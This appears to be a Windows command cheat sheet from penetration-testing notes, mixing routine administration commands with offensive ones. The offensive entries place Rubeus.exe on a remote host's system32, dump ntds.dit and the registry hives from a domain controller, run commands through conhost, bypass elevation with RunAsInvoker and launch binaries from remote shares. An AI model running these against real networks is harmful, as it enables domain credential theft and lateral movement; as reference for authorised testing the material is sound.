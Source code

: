# Copy files between systems
## File
```batchfile
xcopy "C:\Rubeus.exe" "\\[computer.domain.local]\C$\Windows\system32\"
```
## Directory
### xcopy
```batchfile
xcopy "C:\temp\" "\\[computer.domain.local]\" /E /H /C /I
```
### robocopy
```batchfile
robocopy "C:\temp\" "\\[computer.domain.local]\temp\ /MIR"
```

# Recursively delete a folder and everything inside it
## rd
```batchfile
rd /S /Q "C:\Users\[user]\Downloads\[folder]"
```

## robocopy
```batchfile
robocopy "C:\empty_folder\" "\\[computer.domain.local]\folder_to_delete\ /MIR"
```

# Dump ntds.dit on a domain controller
```batchfile
ntdsutil "ac i ntds" "ifm" "create full C:\Windows\Temp\xn--5o8hui" q q
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\Active Directory\ntds.dit" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SYSTEM" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SECURITY" C:\<dc>\
rmdir /S C:\Windows\Temp\xn--5o8hui\
```

# Run commands via [conhost](https://lolbas-project.github.io/lolbas/Binaries/Conhost/)
```batchfile
conhost cmd.exe
```

# Find files or directories

# Find all files and directories
```batchfile
dir "C:\Users\*.txt" /s
```
## Print only file names (no heading information or summary)
```batchfile
dir /s /b /o:gn "C:\Users\*.txt"
```

# Merge two binary files
```batchfile
copy /b cmd.exe+calc.exe new_cmd.exe
```

# Get hash of a file
```batchfile
certutil -hashfile C:\Windows\System32\cmd.exe SHA256
```

# [Displays the device join status](https://learn.microsoft.com/en-us/azure/active-directory/devices/faq#how-do-i-know-what-the-device-registration-state-of-the-client-is)
```batchfile
dsregcmd.exe /status
```
# Get a list of logged user sessions from a remote computer
## query session
```batchfile
query session /server:[server]
```
### qwinsta
```batchfile
qwinsta /server:[server]
```
## query user
```batchfile
query user /server:[server]
```

# Install Windows applications as current user
```batchfile
set __COMPAT_LAYER=RunAsInvoker
start installer.exe
```

# Find a listening port
```batchfile
netstat -aofn | findstr :10080
```

# Run a command from remote share
```batchfile
start cmd /k "\\[computer.domain.local]\echo-server.exe"
```
